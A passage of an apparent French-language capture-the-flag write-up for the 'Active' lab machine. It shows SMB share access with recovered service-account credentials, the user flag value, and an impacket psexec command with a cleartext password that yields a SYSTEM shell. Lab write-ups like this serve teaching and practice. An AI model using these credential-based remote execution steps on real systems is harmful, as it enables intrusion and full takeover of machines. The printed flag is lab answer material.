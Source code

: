 On a finalement un couple login/password qui s'avère valide. On peut ainsi accéder au partage *users* :  

```plain
$ smbclient  -U "SVC_TGS" '//10.10.10.100/users'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\SVC_TGS's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 16:39:20 2018
  ..                                 DR        0  Sat Jul 21 16:39:20 2018
  Administrator                       D        0  Mon Jul 16 12:14:21 2018
  All Users                         DHS        0  Tue Jul 14 07:06:44 2009
  Default                           DHR        0  Tue Jul 14 08:38:21 2009
  Default User                      DHS        0  Tue Jul 14 07:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:57:55 2009
  Public                             DR        0  Tue Jul 14 06:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 17:16:32 2018

        10459647 blocks of size 4096. 4931883 blocks available
```

et récupérer le flag *user.txt* (86d67d8ba232bb6a254aa4d10159e983).  

Kansas City Shuffle
-------------------

Testons cet identifiant via psexec :  

```plain
$ python /usr/share/doc/python-impacket/examples/psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Trying protocol 445/SMB...

[*] Requesting shares on 10.10.10.100.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'Replication' is not writable.
[-] share 'SYSVOL' is not writable.
[-] share 'Users' is not writable.
[*] Uploading file WcxwBFBv.exe
[-] Error uploading file WcxwBFBv.exe, aborting.....
[-] Error performing the installation, cleaning up: 'NoneType' object has no attribute 'split'
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Et boom ([Shake the room!](https://www.youtube.com/watch?v=_PJPmokfTfQ)) ! Un shell... avec les droits NT\SYSTEM... OMG PWNIES WUT DID JUST HAPPENED ?  
